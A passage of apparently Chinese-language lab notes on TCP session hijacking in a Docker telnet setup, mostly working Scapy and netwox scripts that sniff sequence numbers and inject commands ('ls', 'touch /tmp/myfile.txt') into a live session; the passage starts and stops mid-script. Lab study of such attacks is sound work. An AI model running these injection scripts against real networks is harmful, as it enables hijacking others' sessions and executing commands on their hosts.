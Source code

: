         pkt = ip/tcp
        send(pkt,verbose=0)
        print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    print(f)
    sniff(filter=f, prn=spoof,iface='docker0')


## TCP 会话劫持

在客户机和服务器在telnet已经连接的情况下进行

### netwox

    netwox 40 --ip4-src 172.17.0.3 --ip4-dst 172.17.0.2 --tcp-src 41296 --tcp-dst 23 --tcp-seqnum 4182750606 --tcp-acknum 198431585 --tcp-ack --tcp-window 227 --tcp-data "6c730d00"

使用此命令需要在wireshark查看情况，客户机会卡死

### scapy

手动需要抓包分析seq和ack

    #!/usr/bin/python3
    from scapy.all import *

    print("SENDING SESSION HIJACKING PACKET.........")

    ip  = IP(src="172.17.0.3", dst="172.17.0.2")
    tcp = TCP(sport=41378, dport=23, flags="A", seq=4267048152, ack=2850155353)
    data = "\n touch /tmp/myfile.txt\n"
    pkt = ip/tcp/data
    send(pkt, verbose=0)

自动还是方便

    #!/usr/bin/python3
    from scapy.all import *

    SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_ip  = pkt[IP]
        old_tcp = pkt[TCP]

        #############################################
        ip  =  IP( src   = old_ip.src,
                dst   = old_ip.dst
                )
        tcp = TCP( sport = old_tcp.sport,
                dport = old_tcp.dport,
                seq   = old_tcp.seq,
                ack   = old_tcp.ack,
                flags = "A"
                )
        data = "ls\r\x00"
        #############################################
